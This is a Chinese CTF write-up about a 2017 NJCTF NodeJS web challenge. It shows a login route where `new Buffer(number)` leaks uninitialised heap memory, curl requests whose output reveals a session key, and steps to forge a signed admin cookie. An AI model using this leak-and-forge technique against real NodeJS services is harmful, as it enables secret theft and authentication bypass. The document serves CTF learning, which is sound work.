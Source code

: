 ```yaml
---
title: CTF之NodeJS Buffer()引发内存泄露
date: 2017-03-16 15:41:21
categories: CTF
tags:
    - NodeJS
    - 内存泄露
---
```


## 背景介绍

参加2017 NJCTF比赛时碰见了一道NodeJS的web题，之前也没学过NodeJS, 于是上网搜了一下，搜到了原题 [https://www.smrrd.de/nodejs-hacking-challenge-writeup.html](https://www.smrrd.de/nodejs-hacking-challenge-writeup.html), 发现NJCTF在原题基础上改了入口代码，虽说在github上能搜到改过的原题，倒不如直接给源码来的痛快，这里就不提改过的题目了，直接分析原题，其中有几个点还是值得好好学习的。

<!-- more -->

## 环境搭建

安装好nodejs的环境，切换到源码更目录，安装依赖包`npm install`, 运行`npm start run`, 然后访问本机`http://localhost:3000`.

## 关键点分析

* post 请求

`/admin` 页面提交`password`，会向`/login`发送一个JSON类型的数据。

而NJCTF的题目更改了发送请求，直接发送的POST的数据(e.g. "password=...")，可以通过代理工具，更改发送请求类型，发送JSON类型的数据，以后做测试时要考虑服务器是否接受发送JSON类型的请求，如果接受，可以很好的扩大发送数据的类型。

服务器响应头返回Cookie设置`session`和`session.sig`，而`session`明显是base64编码过，解码为`{"admin":"no"}`，由于有`session.sig`的校验，单纯改`session`的值是无效的，要实现成功伪造`session`值，必须获得`config.js`配置的`session_keys`的值，然后本地搭建，获取`session.sig`.

* 内存泄露`session_keys`


```
router.post('/login', function(req, res, next) {
    if(req.body.password !== undefined) {
        var password = new Buffer(req.body.password);
        if(password.toString('base64') == config.secret_password) {
            req.session.admin = 'yes';
            res.json({'status': 'ok' });
        } else {
            res.json({'status': 'error', 'error': 'password wrong: '+password.toString() });
        }
    } else {
        res.json({'status': 'error', 'error': 'password missing' });
    }
});
```

`index.js`中根据用户提交的`password`生成新的Buffer对象，当`password`为字符串类型时，会生成同等大小的内存块，而当`password`为数字类型时，则生成指定大小的内存块， 而且Buffer返回的并不是全是0的内存块，而是之前在堆上分配的数据，这样就可以泄露内存数据，获取源码和数据。

```
> Buffer('AAAA')
<Buffer 41 41 41 41>
> Buffer(4)
<Buffer 90 4e 80 01>
> Buffer(4)
<Buffer 50 cc 02 02>
> Buffer(4)
<Buffer 0a 00 00 00>
```

令password=100(整数，也可以是更大的数，泄露出更多的数据), 多次重复发送post请求，会泄露出想要的`session_keys: ALLES{session_key_K.GKQeR0JS2b9OhwSH#UdMhL4EddxeD?}`

```
curl http://xxx.xxx.xxxx.xxx:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | hexdump -C
00000000  7b 22 73 74 61 74 75 73  22 3a 22 65 72 72 6f 72  |{"status":"error|
00000010  22 2c 22 65 72 72 6f 72  22 3a 22 70 61 73 73 77  |","error":"passw|
00000020  6f 72 64 20 77 72 6f 6e  67 3a 20 41 4c 4c 45 53  |ord wrong: ALLES|
00000030  7b 73 65 73 73 69 6f 6e  5f 6b 65 79 5f 4b 2e 47  |{session_key_K.G|
00000040  4b 51 65 52 30 4a 53 32  62 39 4f 68 77 53 48 23  |KQeR0JS2b9OhwSH#|
00000050  55 64 4d 68 4c 34 45 64  64 78 65 44 3f 7d 72 64  |UdMhL4EddxeD?}rd|
00000060  41 70 70 7b 5c 22 61 64  6d 69 6e 5c 22 3a 5c 22  |App{\"admin\":\"|
00000070  6e 6f 5c 22 7d 3e 69 3c  21 44 4f 43 54 59 50 45  |no\"}>i<!DOCTYPE|
00000080  20 68 74 6d 6c 3e 3c 68  74 6d 6c 20 6e 67 2d 61  | html><html ng-a|
00000090  70 70 3d 22 7d                                    |pp="}|
00000095

curl http://xxx.xxx.xxx.xxx:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | grep ALLES
{"status":"error","error":"password wrong: ALLES{session_key_K.GKQeR0JS2b9OhwSH#UdMhL4EddxeD?}><lin{\"admin\":\"no\"}eet\" href=\"/stylesheets/style."}
```

于是本地搭建环境，更改conf.js的`session_keys`, 然后更改`app.js`,强制令`req.session.admin = 'yes'`, 就可以获取了有效的`session`和`session.sig`.

```
app.use(function(req, res, next) {
  req.session.admin = 'yes';
  // if(req.session.admin === undefined) {
  //   req.session.admin = 'no';
  // }
  next();
});
```

伪造cookie访问目标网站即可。

{% asset_img admin.png %}
